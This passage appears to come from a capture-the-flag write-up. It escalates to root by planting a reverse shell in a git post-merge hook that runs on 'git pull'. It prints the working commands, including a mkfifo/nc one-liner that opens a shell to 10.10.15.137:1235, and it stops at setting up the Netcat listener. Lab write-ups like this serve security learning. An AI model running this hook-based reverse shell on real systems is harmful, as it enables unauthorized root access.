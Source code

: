 To get the reverse shell as root, all we need is to add bash reverse shell in `.git/hooks/post-merge` and after git pull, it will execute the command.

![](img/1__bRqTrazulKfUqJ6cevxvIQ.png)

Let’s grab the profile(we can edit it as a `clave)` project on `/tmp/`

### Its all set.

![](img/1__KUN5Z__VVkgobsYCtsZ0QCg.png)

### Let’s get the reverse shell as a root!

> Add bash Shebang in .git/hooks/post-merge  
> `echo “#!/bin/bash” > .git/hooks/post-merge`

> Append reverse shell in .git/hooks/post-merge

> `echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.137 1235 >/tmp/f” >> .git/hooks/post-merge`

> And give it execute permission

> `chmod +x .git/hooks/post-merge`

![](img/1__G5lQN4ONYi0d2wMMrZqILA.png)

Set up the listener with Netcat:
